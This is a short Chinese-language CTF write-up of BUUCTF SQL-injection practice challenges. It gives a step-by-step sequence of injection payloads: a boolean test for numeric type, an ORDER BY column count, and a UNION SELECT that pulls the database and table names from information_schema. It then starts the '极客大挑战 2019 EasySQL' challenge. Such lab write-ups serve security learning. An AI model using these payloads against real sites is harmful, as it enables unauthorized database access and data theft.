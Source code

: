 ![](/img/BUUCTF_SQL刷题/I4WhbD5rpoJ0qNx7zlJceNGhnme.png)

`?id=1 and 1=1` 时仍是相同回显

`?id=1 and 1=2` 时无回显，说明为数字型

`?id=1 order by 2` 有正常回显，`?id=1 order by 3` 无，说明为 2 列

`?id=-1 union select database(),group_concat(table_name) from information_schema.tables where table_schema='news'` 即可得到数据库名、表名

![](/img/BUUCTF_SQL刷题/IXUnb4AFSoT7jhxE2Wucs5UQnJe.png)

后续依次获取列名、内容即可

# [极客大挑战 2019]EasySQL

尝试判断闭合类型，结尾使用注释

![](/img/BUUCTF_SQL刷题/WUQZbgFmrombgMxEdN2cbOhHnof.png)
